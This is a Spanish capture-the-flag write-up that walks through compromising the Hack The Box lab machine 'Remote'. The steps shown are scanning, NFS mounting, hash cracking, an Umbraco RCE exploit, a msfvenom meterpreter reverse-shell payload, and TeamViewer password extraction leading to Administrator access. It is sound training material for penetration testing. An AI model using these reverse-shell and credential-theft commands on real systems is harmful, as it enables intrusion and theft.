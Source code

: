 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: default
---
```


Empezaremos haciendo el nmap de siempre:

```bash

nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap

```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.

![image](assets/zimages/Pasted_image_20231203203247.png)

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:

![image](assets/zimages/Pasted_image_20231203203401.png)

Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash

wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'

```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:

![image](assets/zimages/Pasted_image_20231203203911.png)

Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:

![image](assets/zimages/Pasted_image_20231203204430.png)

En este puerto se están emitiendo una ubicación por la red (una montura), con el comando

```bash

showmount -e "10.10.10.180"

```

podemos ver las monturas que está emitiendo esa ip:

![image](assets/zimages/Pasted_image_20231203204727.png)

Aunque también podemos hacerlo con nmap mediante el comando

```bash

nmap -p 111 --script=nfs-showmount "10.10.10.180"

```

![image](assets/zimages/Pasted_image_20231203204842.png)

Una vez en este punto, podemos montar en local esa montura con el comando

```bash

mount -t nfs 10.10.10.180:/site_backups /mnt/

```

![image](assets/zimages/Pasted_image_20231203205218.png)

Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash

cat Umbraco.sdf | head

```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:

![image](assets/zimages/Pasted_image_20231203205630.png)

Si nos vamos a la web de https://crackstation.net la crackeamos fácil:

![image](assets/zimages/Pasted_image_20231203205736.png)

También tenemos el usuario de la web del admin, el login donde pedía un correo:

![image](assets/zimages/Pasted_image_20231203205810.png)

Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:

![image](assets/zimages/Pasted_image_20231203210018.png)

Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash

python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20

```

Una vez puesto este comando, nos da una shell directamente:

![image](assets/zimages/Pasted_image_20231203213041.png)

El problema es que si probamos a poner comandos básicos no funciona bien.

Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell

cd C:\windows\temp

```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe

```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash

impacket-smbserver samucrow $(pwd) -smb2support

```

Esto básicamente es como hacer un

```python

python3 -m http.server 80

```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell

copy \\10.10.14.20\samucrow\virus.exe virus.exe

```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](assets/zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole

set PAYLOAD windows/meterpreter/reverse_tcp

```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](assets/zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](assets/zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](assets/zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user:

![image](assets/zimages/Pasted_image_20231203221719.png)



# Escalada 1


Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.

Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente:


```msfconsole

search teamviewer

```


![image](assets/zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:

  

![image](assets/zimages/Pasted_image_20231203223209.png)

elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:

  

![image](assets/zimages/Pasted_image_20231203223318.png)

Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash

evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'

```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root:

![image](assets/zimages/Pasted_image_20231203224126.png)


# Escalada 2 (NO FUNCIONAL)


Si nos vamos a la consola de metasploit, podemos poner el comando `search local_exploit_suggester` y `use 0` para usar el exploit suggester, una vez hecho esto, ponemos `set SESSION 1` y `run`, así nos buscará posibles formas de conseguir privilegios de Administrador.
  
![image](assets/zimages/Pasted_image_20231203224957.png)

Probamos con todos los posibles exploits pero ninguno funciona